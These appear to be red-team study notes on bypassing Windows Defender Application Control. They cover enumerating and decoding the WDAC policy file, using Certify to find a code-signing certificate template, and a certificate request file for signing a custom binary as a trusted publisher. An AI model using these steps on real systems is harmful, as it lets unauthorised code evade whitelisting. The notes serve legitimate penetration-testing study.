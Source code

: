 Commonly used rules:
- Hash - allows binaries to run based on their hash values
- FileName - allows binaries to run based on their original filename
- FilePath - allows binaries to run from specific file path locations
- Publisher - allows binaries to run that are signed by a particular CA
Common exceptions: [Ultimate WDAC Bypass List](https://github.com/bohops/UltimateWDACBypassList)
#### Enumerating WDAC Rules
On disk
`download C:\Windows\System32\CodeIntegrity\CIPolicy.p7b`

In GPO
[[#Read GPO]]
**ValueData** is the p7b file containing the WDAC rules
`download [path]`
#### Reversing WDAC Rules
`ipmo C:\Tools\CIPolicyParser.ps1`
`ConvertTo-CIPolicy -BinaryFilePath .\CIPolicy.p7b -XmlFilePath CIPolicy.xml`
open `CIPolicy.xml`
#### Trusted Signers
look for **Signer** entry in WDAC policy

find already signed binary
`Get-AuthenticodeSignature -FilePath '[signed]' | fl`
remember **Subject**

`execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas`
`execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /ca:[ca]`
look for **Code Signing** template
##### Sign Custom Binary
**Note:** This can also be done with the mmc certificates snap-in

create req.inf
```inf
[NewRequest]
Subject = "[subject]"

KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
SMIME = False
PrivateKeyArchive = FALSE
UserProtected = FALSE
UseExistingKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0
HashAlgorithm = SHA256

[RequestAttributes]
CertificateTemplate=[template]

[EnhancedKeyUsageExtension]
OID=1.3.6.1.5.5.7.3.3
```
